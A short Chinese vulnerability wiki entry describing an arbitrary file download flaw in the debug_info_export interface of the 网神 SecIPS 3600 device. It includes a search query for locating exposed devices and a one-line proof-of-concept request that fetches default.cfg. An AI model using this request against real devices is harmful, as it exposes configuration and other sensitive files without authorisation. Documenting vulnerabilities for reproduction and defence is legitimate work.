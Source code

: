 # 网神 SecIPS 3600 debug_info_export 任意文件下载漏洞

## 漏洞描述

网神 SecIPS 3600 debug_info_export接口存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>网神 SecIPS 3600 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="网神-SecIPS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1639641366514-eff0967c-0e03-479e-b9d3-81ba2f07eacb.png)

验证POC

```go
/webui/debug/debug_info_export?filename=default.cfg
```

![img](/assets/PeiQi-Wiki/img/1639641390577-fec79e9b-2981-4807-a0fd-1bd6f7986a44.png)